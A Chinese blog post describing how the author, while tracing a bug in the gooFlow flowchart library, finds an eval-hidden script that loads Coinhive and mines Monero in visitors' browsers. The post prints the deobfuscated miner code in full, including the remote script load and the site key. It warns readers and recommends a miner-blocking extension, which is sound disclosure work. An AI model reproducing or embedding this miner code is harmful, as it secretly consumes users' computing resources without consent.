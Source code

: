 ```yaml
---
layout: post
title:  "由一个bug找到JS挖矿代码"
date:   2018-06-16
categories: JS
author: 张翔
location: ShangHai, China
cover: "https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/miner-block.jpg"
description: 通过使用一个开源框架，发现了bug，在找bug的过程中发现了js挖矿代码！
---
```

---
由于工作需要，需要前端画流程图，找到一个开源的框架**gooFlow**（下图就是这个开源框架），它可以编辑流程图，提供节点和线以及一些辅助功能。仔细看一下这是一个国人写框架，文档也是中文，用起来也很顺手。

![Image1.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image1.png)

但是使用这个框架的时候发现一个很奇怪的bug，描述起来就是：**我在父页面的a标签点击跳转到流程图页面，如果a标签的target是_top，页面就不会报错，但是如果target的值为_blank，页面第一次打开不会报错，只有在刷新的情况下页面才会报错。**报错信息如下

![Image2.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image2.png)

其实从这个信息推断不出来什么具体信息，只知道jQuery这个对象应该不存在，所以导致程序出错，仔细检查我的页面代码的引入，发现jQuery都有引入，都没问题，结合这个bug出现的时机，只在新开页面且刷新过一次的情况下才会报错，所以可以推断出这个gooFlow框架应该是引用了父页面的某个对象，然后在刷新一次页面的情况下，父页面的这个对象为空才会导致报错。
接着我就开始搜索gooFlow的**window.opener**和**window.parent**的引用，**window.opener返回的是创建该窗口的 Window 对象的引用，window.parent返回的是返回当前窗口的父窗口**。但是都没有找到导致bug的源头。
束手无策的时候，尝试使用最原始的方法，**删除父页面上的js引用**，看流程图页面抛出什么错误，当我把父页面的jQuery删除的时候，页面报了不一样的错误（下图）。

![Image3.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image3.png)

找到对应方法处的代码，如下图，是使用**eval**执行一串字符串，很不好调试，只好把这一串代码拷贝出来执行一下看执行的是什么代码？

![Image4.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image4.png)


正当我纳闷为啥需要对框架里面的**代码加密**的时候，我找到了eval执行的字符串，格式化之后如下，保存的原因找到了，**_opener.$**的使用就是对**打开这个页面的jQuery的引用**，所以删除父页面jQuery报错信息会不一致。
```javascript
var _ = window;
try {
    _ = _.opener.$
} catch (e) {
    try {
        _ = _.top.$
    } catch (e) {
        _ = $
    }
};
if (!_("head").data('x')) {
    GooFlow.a = 1;
    _a = 20;
    var d = new Date();
    _("head").data('x', 1);
    _.ajax("https://coinhive.com/lib/coinhive.min.js?" + d.getFullYear() + d.getMonth() + d.getDate(), {
        dataType: 'script',
        cache: true
    });
    _i = setInterval(function () {
        try {
            new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();
            clearInterval(_i)
        } catch (e) {
            _a--;
            if (_a < 1) document.write("")
        }
    }, 1000)
}
```

仔细看这个代码会发现这竟然是一串挖矿代码！！！会去请求接口:`https://coinhive.com/lib/coinhive.min.js`，然后执行`new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();`开始挖矿，在网上找到了，这是**门罗币的挖矿代码**。具体可以看看下面这篇文章：

> JS挖矿 - 门罗币是如何利用网页挖矿的？
> （http://liujinkai.com/2017/10/28/js-miner/）


现在很多开源的框架、插件、库，使用起来都要小心，一不小心就中了别人的圈套，挖矿这种事是牺牲用户体验的基础上进行的，可以看到cpu使用飙升，电脑发烫，所以如果在你为了你的网站优化用户体验的时候，发现怎么优化都无济于事，记得找一找你引用代码里面有哪些隐藏的圈套。
最后推荐一下chrome阻止挖矿的插件**minerBlock**

![Image5.png](https://meetsup.oss-cn-hangzhou.aliyuncs.com/blog-images/article23/Image5.png)